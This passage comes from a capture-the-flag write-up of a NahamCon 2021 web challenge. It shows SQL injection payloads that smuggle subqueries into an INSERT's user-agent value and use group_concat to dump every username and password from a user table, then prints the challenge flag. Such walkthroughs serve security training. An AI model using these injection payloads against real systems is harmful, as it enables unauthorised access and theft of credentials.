 Response:
You can only execute one statement at a time.
```

Let's go for other paylaod:

```
asdf'),(5,2,(select user_id from user))--
asdf'),(5,2,(select username from user))--
asdf'),(5,2,(select password from user))--

insert into visit (post_id, user_id, ua) values (5,2,'asdf'),(5,2,(select password from user))--');
```

First payload failed, but the username and password columns are displayed, but lets use group_concat() function in order to display all the rows of the table:

```
asdf'),(5,2,(select group_concat(username) from user))--
asdf'),(5,2,(select group_concat(password) from user))--
```

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_pass.png" width="70%"/>
</p>

Log in as Admin and flag will show up:

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/2_flag.png" width="70%"/>
</p>

``` flag{8b31eecb1831ed594fa27ef5b431fe34} ```

---

That's all! Thanks for reading my writeups!!
